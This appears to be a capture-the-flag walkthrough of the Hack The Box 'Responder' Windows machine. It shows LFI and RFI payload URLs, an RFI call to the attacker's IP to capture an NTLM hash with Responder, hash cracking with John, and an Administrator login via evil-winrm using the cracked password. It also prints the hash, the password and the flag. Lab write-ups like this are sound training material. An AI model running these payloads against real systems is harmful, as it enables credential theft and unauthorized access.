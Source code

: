 Name: Responder
IP Address: 10.129.187.36
System: Windows

## Enumeration

### Nmap Scan:
[[Responder.xml]]
[[Responder.html]]
[[Responder_All.xml]]]
[[Responder_all.html]]
### Services

```
http-methods 

  Supported Methods: GET HEAD POST OPTIONS 

http-server-header 

Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1 

http-title 

Site doesn't have a title (text/html; charset=UTF-8).
```

Since port 80 is open, we can try and access the website:


It gives us the following error and a dns : `http://unika.htb/` which we can add to our `/etc/hosts`
![[Pasted image 20220611013838.png]]

We will also run a vulners scan to check for vulnerabilities
```sh
sudo nmap -T4 -sV -vvv -p 80 --script vulners $ip -oX Responder_http.xml
```
[[Responder_http.html]]

Read more on Vulnerability Scanning with nmap [Here](https://geekflare.com/nmap-vulnerability-scan/)

### Website Enum
![[Pasted image 20220611013859.png]]

![[Pasted image 20220611014103.png]]

## Exploitation

### Local File Inclusion
When switching languages, it uses `page` to load different languages, we can try LFI here:

`http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`
![[Pasted image 20220611023308.png]]

### Remote File Inclusion

`http://unika.htb/index.php?page=//10.10.14.6/somefile`

### NTLM Responder

Start a responder listener on tun0
```sh
sudo responder -I tun0
```

Using RFI, replace the IP in  `page=//10.10.14.6/somefile` with your tun0 IP
http://unika.htb/index.php?page=//10.10.16.135/somefile

![[Pasted image 20220611024837.png]]

[[Responder Output]]

Hash: (Output this to file)
```sh
7f7177e05207675c:5440E2DFE0E8424C442217  
FD34517AE3:01010000000000000056F65A3D7DD8012E861D2638B2F92800000000020008005A005700520039000  
1001E00570049004E002D0042003600560030003200340051004F0047005A00300004003400570049004E002D004  
2003600560030003200340051004F0047005A0030002E005A005700520039002E004C004F00430041004C0003001  
4005A005700520039002E004C004F00430041004C00050014005A005700520039002E004C004F00430041004C000  
70008000056F65A3D7DD8010600040002000000080030003000000000000000010000000020000075D0C3D2439F1  
CD84607A6E5980B5652D7AA1F14B9969B82F2A568928D4EB5970A001000000000000000000000000000000000000  
900220063006900660073002F00310030002E00310030002E00310036002E003100330035000000000000000000
```
hash file: [[hash]]

### John the Ripper

```sh
┌──(kali㉿kali)-[/<..>/Responder]  
└─$ john           
Created directory: /home/kali/.john  
John the Ripper 1.9.0-jumbo-1+bleeding-aec1328d6c 2021-11-02 10:45:52 +0100 OMP [linux-gnu 6  
4-bit x86_64 AVX2 AC]  
Copyright (c) 1996-2021 by Solar Designer and others  
Homepage: https://www.openwall.com/john/  
  
Usage: john [OPTIONS] [PASSWORD-FILES]  
  
Use --help to list all available options.
```

```sh
john hash
```

This will take some time so be patient. Once it is cracked, you can view the password by doing:

```sh
john -show hash
```

Password: badminton

### Flag

Using the all scan flag for nmap [[Responder_all.html]] we found a port 5985 which we will use to interface with the windows service.

To connect to it, use Evil-WinRM and fill in the parameters
```sh
evil-winrm -i 10.129.187.36 -u Administrator -p badminton
```

![[Pasted image 20220611031034.png]]
![[Pasted image 20220611031120.png]]
Flag: `ea81b7afddd03efaa0945333ed147fac`
